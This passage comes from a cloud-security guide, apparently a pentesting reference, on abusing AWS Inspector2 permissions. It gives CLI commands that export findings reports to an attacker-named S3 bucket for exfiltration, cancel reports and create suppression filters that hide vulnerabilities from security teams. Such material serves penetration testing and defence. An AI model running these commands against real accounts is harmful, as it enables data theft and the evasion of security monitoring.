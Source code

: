```bash
aws --region us-east-1 inspector2 create-findings-report --report-format CSV --s3-destination bucketName=<attacker-bucket-name>,keyPrefix=exfiltration_,kmsKeyArn=arn:aws:kms:us-east-1:123456789012:key/1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f
```
- **Potential Impact**: Generation and exfiltration of detailed vulnerability and software reports, gaining insights into specific vulnerabilities and security weaknesses.

### `inspector2:CancelFindingsReport`, `inspector2:CancelSbomExport`

An attacker could cancel the generation of the specified findings report or SBOM report, preventing security teams from receiving timely information about vulnerabilities and software bill of materials (SBOMs), delaying the detection and remediation of security issues.
```bash
# Cancel findings report generation
aws inspector2 cancel-findings-report --report-id <value>
# Cancel SBOM report generatiom
aws inspector2 cancel-sbom-export --report-id <value>
```
- **Potential Impact**: Disruption of security monitoring and prevention of timely detection and remediation of security issues.
### `inspector2:CreateFilter`, `inspector2:UpdateFilter`, `inspector2:DeleteFilter`

An attacker with these permissions would be able manipulate the filtering rules that determine which vulnerabilities and security issues are reported or suppressed (if the **action** is set to SUPPRESS, a suppression rule would be created). This could hide critical vulnerabilities from security administrators, making it easier to exploit these weaknesses without detection. By altering or removing important filters, an attacker could also create noise by flooding the system with irrelevant findings, hindering effective security monitoring and response.

```bash
# Create
aws inspector2 create-filter --action <NONE | SUPPRESS> --filter-criteria <value> --name <value> [--reason <value>]
# Update
aws inspector2 update-filter --filter-arn <value> [--action <NONE | SUPPRESS>] [--filter-criteria <value>] [--reason <value>]
# Delete
aws inspector2 delete-filter --arn <value>
```

- **Potential Impact**: Concealment or suppression of critical vulnerabilities, or flooding the system with irrelevant findings.

### `inspector2:DisableDelegatedAdminAccount`, (`inspector2:EnableDelegatedAdminAccount` & `organizations:ListDelegatedAdministrators` & `organizations:EnableAWSServiceAccess` & `iam:CreateServiceLinkedRole`)

An attacker could significantly disrupt the security management structure.

- Disabling the delegated admin account, the attacker could prevent the security team from accessing and managing Amazon Inspector settings and reports.
- Enabling an unauthorized admin account would allow an attacker to control security configurations, potentially disabling scans or modifying settings to hide malicious activities.
